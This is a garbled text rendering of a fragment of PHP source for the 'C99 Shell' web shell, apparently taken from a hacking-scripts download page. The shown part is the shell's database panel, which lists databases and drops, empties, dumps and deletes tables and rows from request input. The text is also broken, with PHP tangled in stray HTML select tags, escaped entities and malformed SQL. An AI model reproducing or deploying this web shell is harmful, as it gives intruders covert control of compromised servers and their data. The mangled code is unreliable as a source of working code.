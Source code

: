 &lt;select name="sql_db"&gt;echo "&lt;/select&gt;
&lt;select name="sql_db"&gt;&lt;option value="\&quot;\&quot;"&gt;Databases (".$c.")&lt;/option&gt;&lt;/select&gt;
&lt;select name="sql_db"&gt;";&lt;/select&gt;
&lt;select name="sql_db"&gt;echo $dbs;&lt;/select&gt;
&lt;select name="sql_db"&gt;}&lt;/select&gt;
&lt;select name="sql_db"&gt;?&gt;&lt;/select&gt;

&lt;hr noshade="noshade" size="1" /&gt;

Please, select database

&lt;hr noshade="noshade" size="1" /&gt;

&lt;input type="submit" value="Go" /&gt;&lt;/form&gt;
&lt;!--?php &lt;br ?--&gt; }
 //End left panel
 echo "&lt;/td&gt;
&lt;td valign="\&quot;top\&quot;" width="\&quot;100%\&quot;" height="\&quot;1\&quot;"&gt;";
 //Start center panel
 $diplay = TRUE;
 if ($sql_db)
 {
 if (!is_numeric($c)) {$c = 0;}
 if ($c == 0) {$c = "no";}
 echo "

&lt;hr noshade="noshade" size="\&quot;1\&quot;" /&gt;

&lt;center&gt;&lt;b&gt;There are ".$c." table(s) in this DB (".htmlspecialchars($sql_db).").
";
 if (count($dbquicklaunch) &gt; 0) {foreach($dbsqlquicklaunch as $item) {echo "[ &lt;a href="\&quot;&quot;.$item[1].&quot;\&quot;"&gt;".$item[0]."&lt;/a&gt; ] ";}}
 echo "&lt;/b&gt;&lt;/center&gt;";
 $acts = array("","dump");
 if ($sql_act == "tbldrop") {$sql_query = "DROP TABLE"; foreach($boxtbl as $v) {$sql_query .= "\n`".$v."` ,";} $sql_query = substr($sql_query,0,-1).";"; $sql_act = "query";}
 elseif ($sql_act == "tblempty") {$sql_query = ""; foreach($boxtbl as $v) {$sql_query .= "DELETE FROM `".$v."` \n";} $sql_act = "query";}
 elseif ($sql_act == "tbldump") {if (count($boxtbl) &gt; 0) {$dmptbls = $boxtbl;} elseif($thistbl) {$dmptbls = array($sql_tbl);} $sql_act = "dump";}
 elseif ($sql_act == "tblcheck") {$sql_query = "CHECK TABLE"; foreach($boxtbl as $v) {$sql_query .= "\n`".$v."` ,";} $sql_query = substr($sql_query,0,-1).";"; $sql_act = "query";}
 elseif ($sql_act == "tbloptimize") {$sql_query = "OPTIMIZE TABLE"; foreach($boxtbl as $v) {$sql_query .= "\n`".$v."` ,";} $sql_query = substr($sql_query,0,-1).";"; $sql_act = "query";}
 elseif ($sql_act == "tblrepair") {$sql_query = "REPAIR TABLE"; foreach($boxtbl as $v) {$sql_query .= "\n`".$v."` ,";} $sql_query = substr($sql_query,0,-1).";"; $sql_act = "query";}
 elseif ($sql_act == "tblanalyze") {$sql_query = "ANALYZE TABLE"; foreach($boxtbl as $v) {$sql_query .= "\n`".$v."` ,";} $sql_query = substr($sql_query,0,-1).";"; $sql_act = "query";}
 elseif ($sql_act == "deleterow") {$sql_query = ""; if (!empty($boxrow_all)) {$sql_query = "DELETE * FROM `".$sql_tbl."`;";} else {foreach($boxrow as $v) {$sql_query .= "DELETE * FROM `".$sql_tbl."` WHERE".$v." LIMIT 1;\n";} $sql_query = substr($sql_query,0,-1);} $sql_act = "query";}
 elseif ($sql_tbl_act == "insert")
 {
 if ($sql_tbl_insert_radio == 1)
 {
 $keys = "";
 $akeys = array_keys($sql_tbl_insert);
 foreach ($akeys as $v) {$keys .= "`".addslashes($v)."`, ";}
 if (!empty($keys)) {$keys = substr($keys,0,strlen($keys)-2);}
 $values = "";
 $i = 0;
 foreach (array_values($sql_tbl_insert) as $v) {if ($funct = $sql_tbl_insert_functs[$akeys[$i]]) {$values .= $funct." (";} $values .= "'".addslashes($v)."'"; if ($funct) {$values .= ")";} $values .= ", "; $i++;}
 if (!empty($values)) {$values = substr($values,0,strlen($values)-2);}

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png